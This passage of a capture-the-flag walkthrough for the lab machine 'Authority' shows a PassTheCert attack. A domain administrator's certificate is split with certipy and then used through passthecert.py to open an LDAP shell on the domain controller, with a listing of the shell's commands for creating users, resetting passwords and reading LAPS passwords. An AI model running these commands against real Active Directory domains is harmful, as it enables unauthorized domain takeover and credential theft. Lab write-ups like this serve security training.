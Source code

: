 The same post suggests an alternative path:

> If you run into a situation where you can enroll in a vulnerable certificate template but the resulting certificate fails for Kerberos authentication, you can try authenticating to LDAP via SChannel using something like [PassTheCert](https://github.com/AlmondOffSec/PassTheCert). You will only have LDAP access, but this should be enough if you have a certificate stating you’re a domain admin.

#### LDAP Shell \[Path 1\]

To perform a PassTheCert attack, I’ll need the key and certificate in separate files, which `certipy` can handle:

```
oxdf@hacky$ certipy cert -pfx administrator_authority.pfx -nocert -out administrator.key
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing private key to 'administrator.key'
oxdf@hacky$ certipy cert -pfx administrator_authority.pfx -nokey -out administrator.crt
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'administrator.crt'

```

[This repo](https://github.com/AlmondOffSec/PassTheCert) has C# and Python tools to do a PassTheCert attack. It also offers an `ldap-shell` option that allows me to run a limited set of commands on the DC. I’ll clone it, and then run `passthecert.py` with the following options:

- `-action ldap-shell` \- provide a limited set of commands
- `-crt administrator.crt -key administrator.key` \- the certificate and key files
- `-domain authority.htb -dc-ip 10.10.11.222` \- target info

It connects:

```
oxdf@hacky$ python PassTheCert/Python/passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

Type help for list of commands

#

```

I’ll play around with the various commands:

```
# help

 add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
 rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
 add_user new_user [parent] - Creates a new user.
 add_user_to_group user group - Adds a user to a group.
 change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
 clear_rbcd target - Clear the resource based constrained delegation configuration information.
 disable_account user - Disable the user's account.
 enable_account user - Enable the user's account.
 dump - Dumps the domain.
 search query [attributes,] - Search users and groups by name, distinguishedName and sAMAccountName.
 get_user_groups user - Retrieves all groups this user is a member of.
 get_group_users group - Retrieves all members of a group.
 get_laps_password computer - Retrieves the LAPS passwords associated with a given computer (sAMAccountName).
```